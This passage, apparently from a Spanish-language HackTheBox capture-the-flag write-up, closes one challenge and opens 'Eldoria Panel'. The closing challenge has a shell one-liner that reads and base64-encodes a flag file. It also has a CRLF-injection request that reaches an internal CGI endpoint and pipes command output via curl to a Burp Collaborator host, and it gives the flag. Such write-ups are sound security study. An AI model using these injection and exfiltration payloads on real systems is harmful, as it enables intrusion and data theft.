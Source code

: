 ```bash 
echo 'cd ..;cd ..;cd ..; cat flag-jqpeei2a5jk8hr8.txt'|sh| base64 -w0
```

Como payload final para leer la flag usé Burp Collaborator para decodear a la vez de base64.

```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30cfvekttb0yhbc2ia84d9zkasqjwak68v.oastify.com?p=$(echo%25%32%30%27cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62%25%32%30cat%25%32%30*.txt%27|sh|%25%32%30base64%25%32%30-w0))%260name=%0D%0A%0D%0A 
```

![Collabflag](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-7.png)

Get the flag. 🎉
HTB{h4ndl1n6_m4l4k4r5_f0rc35}

# Eldoria Panel

Es una web que muestra misiones que pueden ser asignadas con la funcion "claim quest".

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-20.png)
